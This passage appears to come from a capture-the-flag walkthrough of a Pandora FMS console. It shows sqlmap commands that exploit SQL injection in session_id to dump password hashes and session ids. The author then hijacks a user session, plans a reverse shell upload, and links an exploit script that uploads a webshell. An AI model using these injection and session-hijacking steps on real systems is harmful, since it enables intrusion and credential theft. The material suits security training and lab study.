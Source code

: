 ```
+------------------------------------+
```

> We need to see the `tpassword_history` and `tsessions_php` table!

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -T tpassword_history --dump

Database: pandora
Table: tpassword_history
[2 entries]

id_user -> matt ; password -> f655f807365b6dc602b31ab3d6d43acc
id_user -> daniel; password -> 76323c174bd49ffbbdedf678f6cc89a6
```

> I changed the table to make it look good. However, nothing is taken out of these hashes, I have gone through crackstation and does not return anything.

```
❯ sqlmap --url "http://localhost:8080/pandora_console/include/chart_generator.php?session_id=''" -T tsessions_php --dump

Database: pandora
Table: tsessions_php
[50 entries]

...
id_session -> avkp2qo6r8237spa3ohavnml52; id_usuario -> admin
id_session -> g4e01qdgk36mfdh90hvcc54umq; id_usuario -> matt
id_session -> hsftvg6j5m3vcmut6ln6ig8b0f; id_usuario -> admin
...
```

> I changed this table too, we just need to focus on admin and matt user.

### Matt access

I tried with admin session but it didn't work. Now changing session_id to g4e01qdgk36mfdh90hvcc54umq we enter like matt.

![matt](matt.png) 
_matt session_

Hmmm, if there is any way to upload files, we can upload a reverse shell to get access to the system.

There is not any fast method to get this working but... Searching for a script to do that I found this [one](https://raw.githubusercontent.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/master/sqlpwn.py).

This script is able to get us an admin session_id and upload a webshell, but it is giving me some problems.
